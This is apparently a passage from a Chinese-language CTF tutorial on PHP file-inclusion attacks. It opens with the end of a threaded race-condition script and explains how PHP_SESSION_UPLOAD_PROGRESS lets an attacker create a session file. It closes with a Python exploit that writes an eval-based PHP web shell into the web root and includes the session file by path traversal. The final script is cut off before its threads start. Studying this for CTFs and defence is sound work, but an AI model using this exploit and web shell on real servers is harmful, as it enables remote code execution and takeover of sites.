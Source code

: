 ```
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

### session文件包含（upload_progress文件上传）

有包含点，且`PHP_SESSION_UPLOAD_PROGRESS`不变时，可以使用此脚本

`session_upload_progress`最初是php为上传进度条设计的一个功能，在上传文件较大的情况下，PHP将进行流式上传，并将进度信息放在session中，此时即使用户没有初始化session，php也会自动初始化session。而且，默认情况下`session.uoload_progress.enabled`是为`on`的，也就是说这个特性默认开启。所以，我们可以通过这个特性来在目标主机上初始化session。

从上面可以看到，session中一部分数据`（session.uoload_progress.enabled）`是用户自己控制的。那么我们只要在文件上传的时候，同时post一个恶意字段`PHP_SESSION_UPLOAD_PROGRESS`，目标服务器的PHP就会自动启用session，session文件将会自动创建。

```
import requests
import threading
session=requests.session()
sess='ctfshow'
url="http://6eb9a422-f96b-4a44-a67d-0d9f9d3e716f.challenges.ctfer.com:8080/" #靶场地址


data1={
        'PHP_SESSION_UPLOAD_PROGRESS':'<?php echo "success";file_put_contents("/var/www/html/1.php","<?php eval(\\$_POST[1]);?>");?>'
}
file={
        'file':'ctfshow'
}
cookies={
        'PHPSESSID': sess
}

def write():
        while True:
                r = session.post(url,data=data1,files=file,cookies=cookies)
def read():
        while True:
                r = session.get(url+"?file=../../../../../../../tmp/sess_ctfshow")
                if 'success' in r.text:
                        print("shell 地址为："+url+"1.php")
                        exit()
                        
```